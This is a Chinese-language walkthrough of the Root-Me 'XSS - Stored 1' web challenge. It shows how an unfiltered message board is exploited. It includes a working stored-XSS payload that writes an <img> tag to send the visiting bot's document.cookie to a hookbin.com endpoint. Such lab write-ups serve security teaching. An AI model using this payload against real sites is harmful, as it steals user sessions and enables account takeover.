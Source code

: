 Root-Me [XSS - Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)
===

看起來像是個留言板。

## 解題關鍵
1. XSS
2. JavaScript

## 解題方法
首先嘗試注入 `<script>alert("Hello World")</script>`，發現可以成功注入，並沒有做任何的過濾。  

![](img/01.png)

接著發現機器人會定期瀏覽該頁面，如下圖。

![](img/02.png)

所以該題的目標大概就是透過 XSS 注入，並竊取其它用戶組的 Cookie。  
構造該題的 Payload，可以運用 `<img>`，瀏覽器讀取 `<img>` 標籤會採用 GET 訪問，若是可以夾帶 Cookie 並對 img 的來源進行訪問，來源端的主機便會留下包含 Cookie 的 log 紀錄，所以首先必須要先有一台對外的主機，這邊可以使用 [hookbin.com](https://hookbin.com) 的線上服務，當在主頁上按下 `CREATE NEW ENDPOINT` 後便會亂數產生一組 URL，便可以用這組 URL 來接收資料。  

![](img/03.png)  
![](img/04.png)  

至於 Payload 如何構造，就必須結合 `<script>` 與 `<img>` 了，如下。  

```HTML
<script>document.write("<img src='https://hookb.in/xYnowdjLw1IdOdY1jYGV?cookie=" + document.cookie + "'/>")</script>
```

送出之後，可以刷新頁面（不建議使用 F5，因為送出的 Payload 會重送），隨後發現訊息被清掉，而顯示 `Message read`，就回到 `hookbin` 上查看是否成功把資料偷出來了。  

![](img/05.png)

結束該題。  

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)